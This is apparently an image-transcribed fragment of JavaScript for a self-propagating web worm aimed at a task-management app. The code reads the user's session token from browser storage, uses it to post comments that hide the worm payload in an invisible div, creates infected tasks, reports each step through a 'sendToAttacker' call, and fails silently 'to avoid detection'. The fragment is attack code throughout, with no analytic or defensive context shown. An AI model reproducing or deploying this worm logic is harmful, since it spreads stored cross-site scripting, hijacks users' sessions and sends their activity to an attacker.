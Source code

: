 ```
        if (this.propagationCount >= this.config.maxPropagations) return;
        
        const token = localStorage.getItem('token') || sessionStorage.getItem('token');
        if (!token) return;
        
        try {
            // Get user's tasks to find collaboration opportunities
            const tasksResponse = await fetch(`${this.config.apiBase}/tasks`, {
                headers: { 'Authorization': `Bearer ${token}` }
            });
            
            if (tasksResponse.ok) {
                const tasks = await tasksResponse.json();
                
                // Inject worm into task comments
                for (const task of tasks.slice(0, 3)) { // Limit to first 3 tasks
                    await this.injectWormIntoComments(task.id, token);
                }
            }
            
            // Create new infected tasks
            await this.createInfectedTask(token);
            
            this.propagationCount++;
            
        } catch (error) {
            this.sendToAttacker('propagation_error', { error: error.message });
        }
    }
    
    async injectWormIntoComments(taskId, token) {
        const wormPayload = this.generateWormPayload();
        
        // Create seemingly innocent comment with hidden worm
        const comment = {
            content: `
                <div>
                    <p>Great progress on this task! 👍</p>
                    <div style="display:none; position:absolute; left:-9999px;">
                        ${wormPayload}
                    </div>
                </div>
            `
        };
        
        try {
            await fetch(`${this.config.apiBase}/comments/task/${taskId}`, {
                method: 'POST',
                headers: {
                    'Authorization': `Bearer ${token}`,
                    'Content-Type': 'application/json'
                },
                body: JSON.stringify(comment)
            });
            
            this.sendToAttacker('worm_propagated', { 
                method: 'comment_injection', 
                taskId: taskId 
            });
            
        } catch (error) {
            // Fail silently to avoid detection
        }
```